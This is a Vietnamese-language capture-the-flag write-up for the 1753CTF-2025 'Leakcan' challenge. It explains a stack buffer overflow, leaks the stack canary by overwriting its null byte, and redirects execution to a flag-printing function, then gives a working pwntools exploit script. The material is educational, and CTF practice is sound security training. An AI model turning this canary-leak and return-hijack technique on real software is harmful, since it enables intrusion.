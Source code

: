 # [1753CTF-2025] Leakcan
<p>Có 3 dòng cần chú ý là 23, 27 và 30. Dòng 23 và 30, đọc tối đa 120 byte đầu vào từ người dùng vào v11 có kích thước 32 byte -> Buffer overflow. Dòng 27, in dữ liệu của v11 ra màn hình.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post11/image.png)

<p>Quan sát bảng Functions, ta có hàm your_goal để in flag ra màn hình -> Cần phải kiểm soát RIP trỏ tới hàm này để đọc flag.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post11/image-1.png)

<p>Đặt breakpoint ngay hàm read đầu tiên, địa chỉ chứa dữ liệu là từ 0x00007fffffffe1a0 và cách giá trị canary 0x58 (88) byte.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post11/image-2.png)

<p>Đi đến hàm write thứ 3, nó sẽ bắt đầu in dữ liệu từ 0x00007fffffffe1a0 -> Nếu ta ghi đè null byte đầu tiên của canary thì có thể leak ra giá trị canary.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post11/image-3.png)

<p>Ta gửi lại 88 kí tự và enter -> Lúc này, null byte của canary đã bị đè bởi byte \n (kí tự xuống dòng). Byte ngay sau canary là 0x01 -> Khi leak canary, ta sẽ không lấy byte cuối cùng (0x01) và chỉ lấy từ vị trí cách byte cuối cùng 7 byte.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post11/image-5.png)

<p>Script exploit:</p>

```
from pwn import *

p = process('./leakcan_chall')
elf = ELF('./leakcan_chall')

payload = b'a' * 88
p.sendlineafter(b'What\'s your name?\n', payload)

data = p.recv()
canary = b'\x00' + data[-8:-1]  
payload = b'a' * 88 + (canary) + b'a' * 8
payload += p64(elf.sym['your_goal'])

p.sendline(payload)
p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post11/image-4.png)